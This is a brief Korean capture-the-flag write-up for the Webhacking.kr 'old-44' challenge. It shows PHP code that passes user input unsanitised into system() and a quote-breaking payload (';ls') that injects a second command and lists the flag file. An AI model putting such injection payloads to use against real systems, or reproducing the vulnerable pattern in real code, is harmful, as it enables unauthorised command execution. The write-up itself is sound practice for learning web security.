 ```yaml
---
title: ["[Webhacking.kr] old-44 (command injection - 50)"]
date: 2024-11-01 09:00:00 +0900
categories: [writeup, webhacking.kr]
tags: [web, command injection]
---
```


```php
<?php
  if($_POST['id']){
    $id = $_POST['id'];
    $id = substr($id,0,5);
    system("echo 'hello! {$id}'"); // You just need to execute ls
  }
?>
```  

`ls` 커맨드를 인젝션하면 되는 문제로 보인다.  
`system` 함수에서 quotation을 생각하며 쿼리를 완성하면 된다.  

```
system("echo 'hello! ';ls''");
// hello! flag_29cbb98dafb4e471117fec409148e9386753569e index.php
```

ls로 나온 경로에 접속하면 된다.